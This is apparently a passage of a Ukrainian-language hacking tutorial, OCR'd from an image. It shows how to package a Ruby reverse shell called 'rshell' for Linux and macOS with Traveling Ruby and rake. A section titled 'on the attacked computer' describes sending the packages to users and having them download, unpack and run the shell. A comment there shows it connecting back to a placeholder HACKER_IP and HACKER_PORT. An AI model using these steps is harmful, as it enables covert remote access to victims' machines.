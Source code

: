 ```ruby
  if !ENV['DIR_ONLY']
    sh "tar -czf #{package_dir}.tar.gz #{package_dir}"
    sh "rm -rf #{package_dir}"
  end
end

def download_runtime(target)
  sh "cd packaging && curl -L -O --fail " +
    "http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-#{TRAVELING_RUBY_VERSION}-#{target}.tar.gz"
end

```

Відтепер ви можете створити всі 3 пакети виконавши наступну команду:

```
rake package
```

Або ж спакувати програму для однієї якоїсь з платформ:

```
rake package:linux:x86
rake package:linux:x86_64
rake package:osx
```

Або ж створити теки з пакетами не архівуючи їх в .tar.gz встановивши параметр DIR_ONLY=1:

```
rake package DIR_ONLY=1
rake package:linux:x86 DIR_ONLY=1
rake package:linux:x86_64 DIR_ONLY=1
rake package:osx DIR_ONLY=1
```


##### На атакованому комп'ютері


У вас тепер є три файи, які ви можете пересилати користувачам.

```
rshell-1.0.0-linux-x86.tar.gz
rshell-1.0.0-linux-x86_64.tar.gz
rshell-1.0.0-osx.tar.gz
```

Наприклад, якщо користувач використовує Linux x86_64 він чи вона має завантажити rshell-1.0.0-linux-x86_64.tar.gz файл, розпакувати та запустити:

```
wget rshell-1.0.0-linux-x86_64.tar.gz
...
tar xzf rshell-1.0.0-linux-x86_64.tar.gz
cd rshell-1.0.0-linux-x86_64
./rshell
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT]

```


[^1]: Traveling-ruby: [Офіційний сайт](http://phusion.github.io/traveling-ruby/)
[^2]: mruby CLI: [Офіційний сайт](https://github.com/hone/mruby-cli)
[^3]: RubyEncoder: [Офіційний сайт](http://rubyencoder.com)